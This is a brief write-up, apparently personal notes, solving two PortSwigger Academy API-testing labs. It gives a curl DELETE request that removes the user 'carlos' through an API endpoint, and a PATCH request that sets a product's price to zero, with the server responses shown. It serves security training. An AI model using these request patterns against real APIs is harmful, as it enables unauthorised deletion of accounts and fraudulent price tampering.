

## API Hacking

### Lab Link

https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation

### Endpoint and Exploit


```bash
`curl -vgw "\n" -X DELETE 'https://0aa8004b034ee1e78179d925004900a1.web-security-academy.net/api/user/carlos' -d '{}'`
```



---
### Lab Link

https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint

### Request and Exploit bro

```http
GET /api/products/1/price?=0 HTTP/1.1
```

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 93
{
    "price": "$1337.00",
    "message": "&#x1F525; 33 users have purchased this in        the last 7 minutes"
}
```

> This Give Me All About The Product I Gues What if I Change price

### Exploit

```http

# Reqest

PATCH /api/products/1/price HTTP/1.1

{
    "price": 0,
    "message": "33 users have purchased this in the last 7 minutes"
}
```

> When I Show This Endpoint I Change Request Method to **PATCH**

```http
# Response
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 17

{
    "price": "$0.00"
}
```

----


----
